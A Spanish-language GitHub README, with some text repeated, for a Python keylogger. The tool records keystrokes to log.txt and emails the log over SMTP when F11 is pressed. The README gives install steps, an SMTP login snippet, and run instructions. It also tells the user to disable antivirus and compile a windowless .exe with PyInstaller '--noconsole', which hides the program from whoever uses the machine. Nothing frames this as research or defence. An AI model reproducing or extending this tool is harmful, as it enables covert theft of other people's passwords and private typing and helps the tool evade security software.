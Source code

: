 # 🖥️ KeyLogger en Python  

Este es un **KeyLogger** desarrollado en Python que registra las teclas presionadas y las guarda en un archivo `log.txt`. Además, permite enviar el registro por correo electrónico presionando `F11` y cerrar el programa con la tecla `ESC`.  

## 📌 Instalación de Dependencias en Python

Antes de ejecutar el keylogger, asegúrate de instalar las bibliotecas necesarias.

## 📌 Requisitos

🔹 Python 3.x instalado en tu sistema.
🔹 Conexión a Internet para descargar las dependencias.

## 🚀 Instalación de Dependencias

### 1️⃣ Instalar `pynput` para Captura de Teclado

El módulo `pynput` permite registrar las teclas presionadas en el sistema. Instálalo con:

```bash
pip install pynput
```

### 2️⃣ Instalar `smtplib` y `email` para Envío de Correos

El módulo `smtplib` ya está incluido en Python, pero `email` se usa para estructurar los mensajes de correo. Se recomienda actualizar `email` con:

```bash
pip install secure-smtplib
```

### 3️⃣ Verificar Instalación

Después de instalar las dependencias, verifica que se hayan instalado correctamente ejecutando:

## ✉️ Configuración del Correo

Abre el archivo y reemplaza los siguientes valores con tu información:

Como configurar el email para que puedas enviar correos: Link de Youtube[https://www.youtube.com/shorts/Tuyai2xNwvE]
```python
mensaje["From"] = "tucorreo@gmail.com"
mensaje["To"] = "destinatario@gmail.com"
server.login("tucorreo@gmail.com", "tu_contraseña")
server.sendmail("tucorreo@gmail.com", "destinatario@gmail.com", mensaje.as_string().encode('utf-8'))
```

🔹 **Usa una contraseña de aplicación en lugar de tu contraseña real para mayor seguridad.**

# 🖥️ KeyLogger en Python  

Este es un **KeyLogger** desarrollado en Python que registra las teclas presionadas y las guarda en un archivo `log.txt`. Además, permite enviar el registro por correo electrónico presionando `F11` y cerrar el programa con la tecla `ESC`.  

---

## 🚀 1️⃣ Inicio del KeyLogger  
Para ejecutar el KeyLogger, abre la terminal y ejecuta:  

```bash
python KeyLogger_Mail.py
```

Al iniciarse, mostrará el siguiente mensaje en la terminal:  

```
(+) Se inició el KeyLogger
```

![Inicio del KeyLogger](./img_keylogger/start.png)

---

## ⏹️ 2️⃣ Cerrar el KeyLogger  
Para **detener la ejecución**, simplemente presiona la tecla `ESC`. Esto cerrará el programa inmediatamente.  

![Cerrar KeyLogger con ESC](./img_keylogger/prueba.png)

---

## 📩 3️⃣ Enviar el registro por correo  
Si presionas la tecla `F11`, el KeyLogger **enviará el archivo `log.txt` a través de un correo electrónico**.  

![Correo recibido con log.txt](./img_keylogger/email.png)

---

![Correo recibido con log.txt](./img_keylogger/prueba_email.png)

# 🛠️ Crear un Archivo Ejecutable (.exe) con PyInstaller

Para convertir el script en un archivo ejecutable `.exe`, es necesario utilizar `pyinstaller`. Antes de proceder, **desactiva tu antivirus**, ya que podría detectar el keylogger como una amenaza y eliminarlo.

🔹 Instalar pyinstaller

```bash
pip install pyinstaller
```

### 🚨 Desactivar Antivirus

🔹 Desactiva temporalmente la protección en tiempo real de tu antivirus antes de ejecutar el siguiente comando puede saltar un error asi.

![Desactivar Antivirus](./img_keylogger/keylogger_antivirus.png)

### 🔹 Generar el Archivo .exe

Ejecuta el siguiente comando en la terminal dentro de la carpeta donde se encuentra `KeyLogger_Mail.py`:

```bash
pyinstaller --onefile --noconsole keylogger.py
